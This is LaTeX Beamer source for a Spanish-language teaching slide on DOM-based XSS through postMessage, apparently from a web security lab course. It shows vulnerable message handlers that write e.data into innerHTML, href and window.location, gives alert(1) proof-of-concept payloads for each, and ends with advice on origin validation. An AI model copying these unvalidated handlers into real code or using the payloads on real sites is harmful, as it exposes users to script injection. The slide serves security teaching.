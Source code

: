 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmdbox}[1]{%
  \begin{center}%
  {\setlength{\fboxsep}{6pt}\colorbox{uzlav!40}{\parbox{0.88\linewidth}{\ttfamily\footnotesize #1}}}%
  \end{center}}
\begin{document}
\begin{frame}[allowframebreaks]{DOM --- Web Messages (postMessage)}
\small
  \begin{itemize}
  \item Vulnerabilidades DOM
  \item ¿Qué es postMessage?
  \item API HTML5 para comunicación entre ventanas/iframes de distintos orígenes.
  \item El receptor DEBE validar el origen --- si no lo hace, es vulnerable.
  \item Lab 82 --- XSS DOM con Web Messages (sin validación de origen)
  \item[] \cmdbox{window.addEventListener('message', function(e) \{\\{}
document.getElementById('ads').innerHTML = e.data; // sink!\\{}
\});\\{}
Payload (iframe con onload):\\{}
\textless{}iframe src='https://victim.com'\\{}
onload='this.contentWindow.postMessage(\textquotedbl{}\textless{}img src=x onerror=alert(1)\textgreater{}\textquotedbl{},\textquotedbl{}*\textquotedbl{})'\textgreater{}}
  \item Lab 83 --- postMessage con URL javascript:
  \item[] \cmdbox{handler: element.href = e.data\\{}
Payload: postMessage('javascript:alert(1)', '*')}
  \item Lab 84 --- postMessage con JSON.parse
  \item[] \cmdbox{var data = JSON.parse(event.data); window.location = data.redirectUrl;\\{}
Payload: \{\textquotedbl{}redirectUrl\textquotedbl{}:\textquotedbl{}javascript:alert(1)\textquotedbl{}\}}
  \item Defensa
  \item Validar siempre: if (e.origin !== 'https://expected.com') return;
  \item No pasar datos de postMessage a sinks sin sanitizar
  \end{itemize}
\end{frame}
\end{document}
